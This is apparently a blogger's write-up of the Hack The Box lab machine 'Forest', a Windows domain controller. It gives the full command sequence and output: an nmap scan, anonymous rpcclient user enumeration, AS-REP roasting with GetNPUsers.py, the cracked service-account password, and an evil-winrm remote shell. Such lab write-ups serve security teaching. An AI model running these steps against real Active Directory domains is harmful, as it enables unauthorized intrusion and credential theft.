

<script>
function openNav() {
  document.getElementById("mySidebar").style.width = "250px";
  document.getElementById("aButton").style.visibility="hidden";
  document.getElementById("cButton").style.visibility="visible";
}
function closeNav() {
  document.getElementById("mySidebar").style.width = "0";
  document.getElementById("aButton").style.visibility="visible";
  document.getElementById("cButton").style.visibility="hidden";
}
</script>
<link href="https://fonts.googleapis.com/icon?family=Material+Icons" rel="stylesheet">
<div id="mySidebar" class="sidebar">
<ul class="author__urls social-icons">
    <center>
    <h1>Scatterbrain</h1>
    <b>Penetration Tester</b><br>
          <svg width="15px" height="15px" class="svg-inline--fa fa-map-marker-alt fa-w-12 fa-fw" aria-hidden="true" focusable="false" data-prefix="fas" data-icon="map-marker-alt" role="img" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 384 512" data-fa-i2svg=""><path fill="currentColor" d="M172.268 501.67C26.97 291.031 0 269.413 0 192 0 85.961 85.961 0 192 0s192 85.961 192 192c0 77.413-26.97 99.031-172.268 309.67-9.535 13.774-29.93 13.773-39.464 0zM192 272c44.183 0 80-35.817 80-80s-35.817-80-80-80-80 35.817-80 80 35.817 80 80 80z"></path></svg><span itemprop="name">United States</span></center>
 <br><br>
          <a href="mailto:mail@null.com">
            <meta itemprop="email" content="scatter@protonmail.io">
            <svg width="15px" height="15px" class="svg-inline--fa fa-envelope-square fa-w-14 fa-fw" aria-hidden="true" focusable="false" data-prefix="fas" data-icon="envelope-square" role="img" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 448 512" data-fa-i2svg=""><path fill="currentColor" d="M400 32H48C21.49 32 0 53.49 0 80v352c0 26.51 21.49 48 48 48h352c26.51 0 48-21.49 48-48V80c0-26.51-21.49-48-48-48zM178.117 262.104C87.429 196.287 88.353 196.121 64 177.167V152c0-13.255 10.745-24 24-24h272c13.255 0 24 10.745 24 24v25.167c-24.371 18.969-23.434 19.124-114.117 84.938-10.5 7.655-31.392 26.12-45.883 25.894-14.503.218-35.367-18.227-45.883-25.895zM384 217.775V360c0 13.255-10.745 24-24 24H88c-13.255 0-24-10.745-24-24V217.775c13.958 10.794 33.329 25.236 95.303 70.214 14.162 10.341 37.975 32.145 64.694 32.01 26.887.134 51.037-22.041 64.72-32.025 61.958-44.965 81.325-59.406 95.283-70.199z"></path></svg>Email </a>
<br>
          <a href="https://keybase.io/scatterbrain" itemprop="sameAs" rel="nofollow noopener noreferrer">
            <svg width="15px" height="15px" class="svg-inline--fa fa-key fa-w-16 fa-fw" aria-hidden="true" focusable="false" data-prefix="fas" data-icon="key" role="img" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 512 512" data-fa-i2svg=""><path fill="currentColor" d="M512 176.001C512 273.203 433.202 352 336 352c-11.22 0-22.19-1.062-32.827-3.069l-24.012 27.014A23.999 23.999 0 0 1 261.223 384H224v40c0 13.255-10.745 24-24 24h-40v40c0 13.255-10.745 24-24 24H24c-13.255 0-24-10.745-24-24v-78.059c0-6.365 2.529-12.47 7.029-16.971l161.802-161.802C163.108 213.814 160 195.271 160 176 160 78.798 238.797.001 335.999 0 433.488-.001 512 78.511 512 176.001zM336 128c0 26.51 21.49 48 48 48s48-21.49 48-48-21.49-48-48-48-48 21.49-48 48z"></path></svg>Keybase
          </a>
  <br>
          <a href="https://twitter.com/scatterbrain" itemprop="sameAs" rel="nofollow noopener noreferrer">
            <svg width="15px" height="15px" class="svg-inline--fa fa-twitter-square fa-w-14 fa-fw" aria-hidden="true" focusable="false" data-prefix="fab" data-icon="twitter-square" role="img" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 448 512" data-fa-i2svg=""><path fill="currentColor" d="M400 32H48C21.5 32 0 53.5 0 80v352c0 26.5 21.5 48 48 48h352c26.5 0 48-21.5 48-48V80c0-26.5-21.5-48-48-48zm-48.9 158.8c.2 2.8.2 5.7.2 8.5 0 86.7-66 186.6-186.6 186.6-37.2 0-71.7-10.8-100.7-29.4 5.3.6 10.4.8 15.8.8 30.7 0 58.9-10.4 81.4-28-28.8-.6-53-19.5-61.3-45.5 10.1 1.5 19.2 1.5 29.6-1.2-30-6.1-52.5-32.5-52.5-64.4v-.8c8.7 4.9 18.9 7.9 29.6 8.3a65.447 65.447 0 0 1-29.2-54.6c0-12.2 3.2-23.4 8.9-33.1 32.3 39.8 80.8 65.8 135.2 68.6-9.3-44.5 24-80.6 64-80.6 18.9 0 35.9 7.9 47.9 20.7 14.8-2.8 29-8.3 41.6-15.8-4.9 15.2-15.2 28-28.8 36.1 13.2-1.4 26-5.1 37.8-10.2-8.9 13.1-20.1 24.7-32.9 34z"></path></svg>Twitter
          </a>
  <br>
          <a href="https://github.com/scatter-security/" itemprop="sameAs" rel="nofollow noopener noreferrer">
            <svg width="15px" height="15px" class="svg-inline--fa fa-github fa-w-16 fa-fw" aria-hidden="true" focusable="false" data-prefix="fab" data-icon="github" role="img" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 496 512" data-fa-i2svg=""><path fill="currentColor" d="M165.9 397.4c0 2-2.3 3.6-5.2 3.6-3.3.3-5.6-1.3-5.6-3.6 0-2 2.3-3.6 5.2-3.6 3-.3 5.6 1.3 5.6 3.6zm-31.1-4.5c-.7 2 1.3 4.3 4.3 4.9 2.6 1 5.6 0 6.2-2s-1.3-4.3-4.3-5.2c-2.6-.7-5.5.3-6.2 2.3zm44.2-1.7c-2.9.7-4.9 2.6-4.6 4.9.3 2 2.9 3.3 5.9 2.6 2.9-.7 4.9-2.6 4.6-4.6-.3-1.9-3-3.2-5.9-2.9zM244.8 8C106.1 8 0 113.3 0 252c0 110.9 69.8 205.8 169.5 239.2 12.8 2.3 17.3-5.6 17.3-12.1 0-6.2-.3-40.4-.3-61.4 0 0-70 15-84.7-29.8 0 0-11.4-29.1-27.8-36.6 0 0-22.9-15.7 1.6-15.4 0 0 24.9 2 38.6 25.8 21.9 38.6 58.6 27.5 72.9 20.9 2.3-16 8.8-27.1 16-33.7-55.9-6.2-112.3-14.3-112.3-110.5 0-27.5 7.6-41.3 23.6-58.9-2.6-6.5-11.1-33.3 2.6-67.9 20.9-6.5 69 27 69 27 20-5.6 41.5-8.5 62.8-8.5s42.8 2.9 62.8 8.5c0 0 48.1-33.6 69-27 13.7 34.7 5.2 61.4 2.6 67.9 16 17.7 25.8 31.5 25.8 58.9 0 96.5-58.9 104.2-114.8 110.5 9.2 7.9 17 22.9 17 46.4 0 33.7-.3 75.4-.3 83.6 0 6.5 4.6 14.4 17.3 12.1C428.2 457.8 496 362.9 496 252 496 113.3 383.5 8 244.8 8zM97.2 352.9c-1.3 1-1 3.3.7 5.2 1.6 1.6 3.9 2.3 5.2 1 1.3-1 1-3.3-.7-5.2-1.6-1.6-3.9-2.3-5.2-1zm-10.8-8.1c-.7 1.3.3 2.9 2.3 3.9 1.6 1 3.6.7 4.3-.7.7-1.3-.3-2.9-2.3-3.9-2-.6-3.6-.3-4.3.7zm32.4 35.6c-1.6 1.3-1 4.3 1.3 6.2 2.3 2.3 5.2 2.6 6.5 1 1.3-1.3.7-4.3-1.3-6.2-2.2-2.3-5.2-2.6-6.5-1zm-11.4-14.7c-1.6 1-1.6 3.6 0 5.9 1.6 2.3 4.3 3.3 5.6 2.3 1.6-1.3 1.6-3.9 0-6.2-1.4-2.3-4-3.3-5.6-2z"></path></svg>GitHub
          </a>
    </ul>
</div>
<div class="buttons">
<button class="showButton" id="aButton" onclick="openNav();">☰Menu</button>
<button class="closeButton" id="cButton" onclick="closeNav();">☰Hide</button>
</div>
<div class="content"><center>
<a href="index.html">Home</a><a href="#">Post</a><a href="#">Categories</a><a href="#">Tags</a><a href="#">About</a><a href="#">Affiliates</a></center>

<br><br><br>
</div>
<h1>Forest</h1>
<a href="index.html">Home</a>/Forest - Hack The Box<br>
<br>
<br>


----

## Synopsis
Forest taught me A LOT about Domain Controllers and forced me on a journey to understand as much as I could about Windows AD Authentication mechanisms. This box was rated as Easy but if you're not a Expert in AD attack vectors like me then I'd easily rate this as hard. It consist of a few AD misconfigurations and a vulnerability that allowed us to eventually gain Domain Admin privs. 


----

## Reconnaissance
### Portscan

```bash
$sudo nmap -sS -sV -p- -T4 -oA forest.nmap 10.10.10.161
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 04:34 PDT
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.71% done
Stats: 0:05:09 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 63.55% done; ETC: 04:42 (0:02:57 remaining)
Nmap scan report for 10.10.10.161
Host is up (0.092s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-03-23 07:41:45Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  msrpc        Microsoft Windows RPC
49909/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=3/22%Time=5E774F36%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 649.91 seconds
```
We discover here that the ports open corolate as this being a Windows Domain Controller. Windows Server 2016 Standard, with WinRM 2.0 (Win Remote management on 5985. We also see the domain name is `htb.local`

### Enumeration 

```
#rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[werkudara] rid:[0x1db1]
user:[bangku] rid:[0x1db2]
rpcclient $> 
```

Here we are able to enumerate the users and we see a service account not configured with pre-auth.
We can run `GetNPUsers.py` to dump a TGT for `svc-alfresco` that can be cracked with hashcat and rockyou.txt which will return to us the password `s3rvice`

```bash
$GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:e6ca8328a5e6f0865ce9f9ffa06f7be4$41f1bcb1fc2366efaa21e95be6ac49701edb6212a9be092e6f02ce42ac4afb8937c0232781166e1408c5998a97f69903606da97c8abb02ad020dac57b2e0d24390f494b98aad73cf6d72c2ec499b11fc2e47be2bcd8dab143b27a5c12c5e9bad01c7640a40554ac391b173b64b38fa2a6c94a3a2c6f12479c96ce921c510a9d6668d26389c229bf5736c78f0278917f92e954a87e17ae4bb1ae281ea947f54f3b8c9b8fe09707ec4e0361c0030f17cb47ef4f9ac9090415ae7bbc89357010c95070a3b78eeafd585c9bfb21366253f0572e51678d77eea409d6b350773e25349e3fd98d80c44

```
We now have some creds that will connect to WinRM service and give us our foothold.
```bash
# evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161

Info: Starting Evil-WinRM shell v1.6

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```
Updated last 3/22/2020

## Weaponization


## Delivery


## Command and Control


## Actions on Objective
Flags exfiltrated.
